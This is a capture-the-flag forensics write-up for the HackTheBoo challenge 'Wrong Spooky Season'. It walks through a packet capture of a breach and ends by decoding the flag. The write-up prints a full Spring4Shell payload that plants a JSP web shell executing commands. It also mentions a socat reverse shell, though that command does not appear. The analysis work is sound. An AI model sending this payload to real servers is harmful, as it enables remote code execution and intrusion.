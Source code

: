 # Wrong Spooky Season

## Background

> "I told them it was too soon and in the wrong season to deploy such a website, but they assured me that theming it properly would be enough to stop the ghosts from haunting us. I was wrong." Now there is an internal breach in the `Spooky Network` and you need to find out what happened. Analyze the the network traffic and find how the scary ghosts got in and what they did.

> Difficulty: Easy

- Overall difficulty for me: Very easy

## Find the flag

**In this challenge, we can [download a file](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/HackTheBoo/Forensics/Wrong-Spooky-Season/forensics_wrong_spooky_season.zip)!**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/HackTheBoo/Forensics/Wrong-Spooky-Season/images/a1.png)

```
┌──(root🌸siunam)-[~/ctf/HackTheBoo/Forensics/Wrong-Spooky-Season]
└─# unzip forensics_wrong_spooky_season.zip 
Archive:  forensics_wrong_spooky_season.zip
  inflating: capture.pcap

┌──(root🌸siunam)-[~/ctf/HackTheBoo/Forensics/Wrong-Spooky-Season]
└─# file capture.pcap     
capture.pcap: pcap capture file, microsecond ts (little-endian) - version 2.4 (Ethernet, capture length 262144)
```

**It's a `pcap` file! Let's open it in WireShark!**
```
┌──(root🌸siunam)-[~/ctf/HackTheBoo/Forensics/Wrong-Spooky-Season]
└─# wireshark capture.pcap
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/HackTheBoo/Forensics/Wrong-Spooky-Season/images/a2.png)

**That's a lot of HTTP packets! Let's filter HTTP all requests!**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/HackTheBoo/Forensics/Wrong-Spooky-Season/images/a3.png)

**The attacker (`192.168.1.180`) looks like has sent a POST request, which uploaded a JSP reverse shell on the web server!**

**In the second POST request, I see this:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/HackTheBoo/Forensics/Wrong-Spooky-Season/images/a4.png)

**Let's URL decode that in CyberChef:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/HackTheBoo/Forensics/Wrong-Spooky-Season/images/a5.png)

```java
class.module.classLoader.resources.context.parent.pipeline.first.pattern=%{prefix}i java.io.InputStream in = %{c}i.getRuntime().exec(request.getParameter("cmd")).getInputStream(); int a = -1; byte[] b = new byte[2048]; while((a=in.read(b))!=-1){ out.println(new String(b)); } %{suffix}i&class.module.classLoader.resources.context.parent.pipeline.first.suffix=.jsp&class.module.classLoader.resources.context.parent.pipeline.first.directory=webapps/ROOT&class.module.classLoader.resources.context.parent.pipeline.first.prefix=e4d1c32a56ca15b3&class.module.classLoader.resources.context.parent.pipeline.first.fileDateFormat=
```

**After some googling, this is a Spring4Shell payload!**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/HackTheBoo/Forensics/Wrong-Spooky-Season/images/a6.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/HackTheBoo/Forensics/Wrong-Spooky-Season/images/a7.png)

**In the last HTTP GET request, we can see that the threat actor is installing `socat` in the victim system, and use that as a reverse shell!**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/HackTheBoo/Forensics/Wrong-Spooky-Season/images/a8.png)

**Now, we can go to the last TCP stream to see what the threat actor did:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/HackTheBoo/Forensics/Wrong-Spooky-Season/images/a9.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/HackTheBoo/Forensics/Wrong-Spooky-Season/images/a10.png)

**That reversed `base64` string looks sussy! Let's decode that:**
```
┌──(root🌸siunam)-[~/ctf/HackTheBoo/Forensics/Wrong-Spooky-Season]
└─# echo "==gC9FSI5tGMwA3cfRjd0o2Xz0GNjNjYfR3c1p2Xn5WMyBXNfRjd0o2eCRFS" | rev
SFRCe2o0djRfNXByMW5nX2p1c3RfYjNjNG0zX2o0djRfc3AwMGt5ISF9Cg==

┌──(root🌸siunam)-[~/ctf/HackTheBoo/Forensics/Wrong-Spooky-Season]
└─# echo "==gC9FSI5tGMwA3cfRjd0o2Xz0GNjNjYfR3c1p2Xn5WMyBXNfRjd0o2eCRFS" | rev | base64 -d
HTB{j4v4_5pr1ng_just_b3c4m3_j4v4_sp00ky!!}
```

Found the flag!

# Conclusion

What we've learned:

1. Inspecting `pcap` File via WireShark
